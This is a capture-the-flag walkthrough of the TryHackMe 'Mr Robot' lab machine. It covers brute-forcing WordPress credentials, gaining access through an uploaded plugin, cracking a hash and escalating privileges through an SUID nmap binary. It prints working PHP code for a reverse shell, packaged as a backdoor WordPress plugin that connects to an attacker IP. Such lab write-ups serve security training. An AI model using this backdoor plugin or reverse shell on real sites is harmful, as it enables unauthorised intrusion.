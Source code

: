 ```yaml
---
title: "[TryHackMe] walkthrough: Mr Robot (Medium, Linux)"
date: 2025-02-14
categories: [tryhackme]
tags: [thm, linux, medium]
---
```


![head](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.29.02.png)

## Info

- Platform: Tryhackme
- Machine Name: Mr Robot
- Target IP/Host: 10.10.156.218
- OS / Version: Linux
- Difficulty / Category: Medium

## Overview

Directory brute forcing -> find wp-login -> password brute force -> get admin perm -> revshell wordpress plugin upload -> initial access -> find suid binary -> priv escalation

Lets get started right away.

## Recon & Enumeration

I found that the ip address is 10.10.156.218, so I started scanning to gather some information.

As a result, I found that ports 22, 80, 443 were open. And I decided to check port 80 first.

![nmap](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.31.29.png)

Port 80 and 443 showed the same web page.

It was an interactive page, but nothing seemed important or useful.

![web](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.32.06.png)

Next, I tried directory brute forcing.

I found /robots.txt, /wp-loign.

![dir](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.32.36.png)

In /robots.txt, I found a wordlist file called fsocity.dic and first flag.

![dic](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.33.33.png)

![flag](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.34.08.png)

After that, I visited /wp-login.

![web](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.34.49.png)

## Initial Access

I captured the login request using burp suite.

The username parameter was log, and the password parameter was pwd.

When I tried invalid username, the page showed the message ‘invalid username’.
![burp](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.35.25.png)

So I used the wordlist I found earlier to brute force the username.

I found a valid username:Elliot.

![hydra](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.35.59.png)

Next, I used the same wordlist to brute force the password for the user:Elliot.

I was able to find the correct password.

![hydra](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.36.43.png)

Using the credentials, I successfully logged into Wordpress.

Next, I tried to get a reverse shell by uploading a plugin.

The plugin payload was as follows:

```
# reverse.php
<?php
$ip = '10.0.0.1';  // attacker IP
$port = 4444;      // listening port
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>

# evil-plugin.php
<?php
/*
Plugin Name: Evil Plugin
Plugin URI: http://example.com/
Description: This is a backdoor plugin.
Version: 1.0
Author: Attacker
*/

include('reverse.php'); 
?>

# same folder
zip -r evil-plugin.zip evil-plugin
```

I uploaded the plugin as .zip, and executed it.

As a result, I got a reverse shell.

When I checked user using the ‘id’ command, it showed that I was ‘daemon’.

![rev](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.37.30.png)

I checked the /home/robot directory and saw that the second flag was there, but I didn’t have permission to read it.

However, I was able to see a hashed password in same directory.

![hash](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.38.02.png)

## Privilege Escalation

I used hashcat to crack the hash, and I was able to recover the password.

`hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

![hash](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.38.44.png)

I used the password to switch to the robot user.

After that, I got second flag.

Next, I searched the system for binary files with the SUID permissions to escalate to root.

![suid](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.39.41.png)

I noticed the nmap binary had the SUID permission.

Using gtfobins, I found a way to bypass it and get root access.

![gtfo](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.40.08.png)

`python -c 'import pty; pty.spawn("/bin/bash")'`

In the end, I gained root access and got the final flag from the /root directory.

![root](/assets/images/wrieups/mr_robot/스크린샷%202025-08-23%20오후%207.40.45.png)
